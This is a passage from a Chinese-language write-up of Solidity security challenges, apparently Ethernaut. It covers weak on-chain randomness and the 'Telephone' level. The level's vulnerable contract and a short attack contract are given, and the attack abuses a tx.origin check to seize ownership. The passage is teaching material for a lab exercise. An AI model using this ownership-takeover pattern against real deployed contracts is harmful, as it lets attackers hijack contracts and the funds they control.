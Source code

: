 ```solidity
words: (2) [10, empty]///变成10了
[[Prototype]]: Object
```

通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.

一些其它的选项包括使用比特币block headers (通过验证 [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), 或是 [Oraclize](http://www.oraclize.it/)).

# 4.Telephone

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

本關主要是為了指出tx.origin跟msg.sender的分別，當以智能合約呼叫智能合約時，msg.sender在被呼叫智能合約中，會是呼叫者智能合約的地址，而tx.origin則是最初呼叫智能合約的個人錢包地址。

调用合约，就像打电话一样，把owner修改掉

```solidity
pragma solidity ^0.6.0;

import './SafeMath.sol';

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    using SafeMath for uint256;
    address levelInstance;
    
    constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```

